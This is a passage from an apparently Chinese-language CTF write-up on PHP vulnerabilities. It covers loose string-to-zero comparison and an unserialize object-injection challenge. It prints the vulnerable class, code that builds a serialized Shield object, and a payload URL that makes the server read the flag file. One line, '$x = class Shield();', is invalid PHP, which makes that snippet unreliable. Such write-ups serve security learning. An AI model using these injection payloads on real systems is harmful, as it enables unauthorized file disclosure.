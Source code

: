 - 方法二：
`$str="字符串";if($str=="0"){   echo "返回了true.";} ,`

此题构造：`http://127.0.0.1/php_bug/25.php?which=aa`

资料：

- [PHP中字符串和数字 0 比较为什么返回true？](https://zhidao.baidu.com/question/336186893.html)

## 26 unserialize()序列化

说明`flag`在`pctf.php`，但`showimg.php`中不允许直接读取`pctf.php`，只有在`index.php`中可以传入变量`class`
，`index.php`中`Shield`类的实例`$X = unserialize($g)`，`$g = $_GET['class'];`，`$X`中不知`$filename`变量，但需要找的是：`$filename = "pctf.php"`，现`$X`已知，求传入的`class`变量值。
可以进行序列化操作：
```
<!-- answer.php -->
<?php

require_once('shield.php');
$x = class Shield();
$g = serialize($x);
echo $g;

?>

<!-- shield.php -->
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = 'pctf.php') {
            $this -> file = $filename;
        }
        
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>

```
得到：
`O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`
构造：
`http://web.jarvisoj.com:32768/index.php?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`

## 30 利用提交数组绕过逻辑
